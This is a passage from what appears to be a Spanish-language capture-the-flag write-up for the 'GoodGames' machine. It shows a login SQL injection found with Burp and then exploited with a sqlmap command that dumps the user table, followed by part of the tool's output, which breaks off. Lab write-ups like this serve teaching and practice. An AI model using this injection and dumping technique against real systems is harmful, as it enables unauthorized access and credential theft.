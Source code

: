 
Cuando nos loggeamos podemos ver la siguiente pantalla, vemos nuestro nombre de usuario reflejado, podríamos intentar hacer un SSTI,En este caso no es posible.
Vamos a capturar con Burp la requests de login.


### Exploiting SQLI

Si probamos una inyección SQL basica podemos ver como el inicio de sesión es efectuado y nos dumpea los usuarios. Vamos a extraer los datos de la BD.

![](/assets/images/GoodGames/img3.png)

```bash
❯ sqlmap -r req.txt  --level=5 --risk=3 -D main -T user --dump                                                                                                                               
        ___                                                                                                                                                                                  
       __H__                                                                                                                                                                                 
 ___ ___[)]_____ ___ ___  {1.5.3#stable}                                                                                                                                                     
|_ -| . [,]     | .'| . |                                                                                                                                                                    
|___|_  [,]_|_|_|__,|  _|                                                                                                                                                                    
      |_|V...       |_|   http://sqlmap.org                                                                                                                                                  
                                                                                                                                                                                             
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws
. Developers assume no liability and are not responsible for any misuse or damage caused by this program                                                                                     
                                                                                                                                                                                             
[*] starting @ 18:07:44 /2023-03-26/                                                                                                                                                         
                                                                                                                                                                                             
[18:07:44] [INFO] parsing HTTP request from 'req.txt'                                                                                                                                        
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q]                                                                                                         
[18:07:45] [INFO] resuming back-end DBMS 'mysql'                                                                                                                                             
[18:07:45] [INFO] testing connection to the target URL                                                                                                                                       
sqlmap resumed the following injection point(s) from stored session:                                                                                                                         
---                                                                                                                                                                                          
Parameter: #1* ((custom) POST)                                                                                                                                                               
    Type: boolean-based blind                                                                                                                                                                
```